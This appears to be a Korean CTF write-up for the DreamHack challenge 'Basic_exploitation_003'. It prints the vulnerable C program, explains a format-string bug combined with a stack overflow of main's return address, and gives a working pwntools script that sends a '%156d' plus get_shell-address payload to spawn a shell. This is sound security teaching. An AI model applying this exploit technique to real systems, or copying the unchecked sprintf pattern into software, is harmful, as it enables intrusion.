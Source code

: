 ```yaml
---
title: "(DreamHack) Basic_exploitation_003"
date: 2021-03-05 05:24:00 -0400
categories: Security
---
```


## 풀이

이번 문제는 FSB와 BOF가 모두 사용된 문제이다.

``` c
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```
#### FSB
sprintf는 입력값의 길이에 대한 검사가 없이 사용되고 있으므로 FSB에 의해 익스플로잇될 수 있다. (앞으로는 sprintf_s를 애용하자)
#### BOF
sprintf를 통해 heap_buf에서 stack_buf의 내용을 바꾸는데 이때 main의 ret 값을 변조시켜 BOF를 일으킬 수 있다.
stack_buf와 ret 사이에 0x98 (stack_buf, *heap_buf) + 0x4 (sfp)만큼의 공간이 존재한다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 24316)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']

payload = "%156d"
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

위 코드를 통해 쉘을 실행시킬 수 있다.
![image](https://user-images.githubusercontent.com/24788751/110102904-a93a7f80-7de8-11eb-9680-9517a32b104e.png)